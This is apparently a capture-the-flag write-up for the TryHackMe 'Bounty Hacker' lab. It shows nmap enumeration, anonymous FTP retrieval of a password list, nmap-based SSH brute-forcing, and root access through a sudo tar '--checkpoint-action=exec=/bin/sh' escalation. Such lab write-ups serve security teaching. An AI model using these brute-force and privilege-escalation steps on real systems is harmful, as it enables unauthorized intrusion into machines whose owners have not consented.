

# Bounty Hacker

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/cowboyhacker) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.32.142 -oN nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 14:00 IST
Nmap scan report for 10.10.32.142
Host is up (0.16s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.7.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1912.04 seconds
```

### Port 80 - Webpage



---

## FTP Anonymous Access

- We can find two files in `ftp` by using `anonymous` login:
    - locks.txt
    - tasks.txt

```bash
ftp 10.10.32.142
Connected to 10.10.32.142.
220 (vsFTPd 3.0.3)
Name (10.10.32.142:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (527.0338 kB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (4.9431 kB/s)
ftp> exit
221 Goodbye.
```

---

## Who wrote the task list? 
- **Answer:** lin
- **Steps to Reproduce:** 

```bash
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

---

## What service can you bruteforce with the text file found?
- **Answer:** ssh
- **Steps to Reproduce:**
    - Using `locks.txt`, bruteforce ssh service and check if any of that is a valid password for `lin`.

```bash
$ nmap -p 22 --script ssh-brute.nse --script-args userdb=users.txt,passdb=locks.txt 10.10.32.142
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 14:09 IST
NSE: [ssh-brute] Trying username/password pair: lin:lin
[..snip..]
Nmap scan report for 10.10.32.142
Host is up (0.16s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     lin:REDACTED - Valid credentials
|_  Statistics: Performed 21 guesses in 17 seconds, average tps: 1.2

Nmap done: 1 IP address (1 host up) scanned in 18.81 seconds
```

---

## What is the users password? 
- **Answer:** REDACTED
- By ssh bruteforce, one can find the user's password!

---

## user.txt

- Login into the `ssh` using the credentials found:

```bash
$ ssh lin@10.10.32.142
The authenticity of host '10.10.32.142 (10.10.32.142)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.32.142' (ECDSA) to the list of known hosts.
lin@10.10.32.142's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{REDACTED}
```

---

## root.txt

### Check sudo permissions

```bash
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

### Priv Esc using tar

```bash
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id   
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
THM{REDACTED}
```

- Yay! We rooted the room!

---